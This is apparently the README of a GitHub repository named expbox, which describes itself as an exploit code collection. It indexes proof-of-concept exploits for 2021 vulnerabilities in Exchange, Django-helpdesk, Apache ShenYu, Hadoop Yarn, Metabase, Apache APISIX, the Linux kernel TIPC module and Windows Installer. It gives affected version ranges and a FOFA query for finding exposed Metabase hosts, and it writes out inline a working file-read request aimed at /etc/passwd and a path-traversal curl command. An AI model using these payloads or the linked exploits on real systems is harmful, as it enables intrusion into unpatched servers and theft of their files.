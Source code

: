 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)
```
<= 0.3.0
```

[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

[Windows 0day](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.

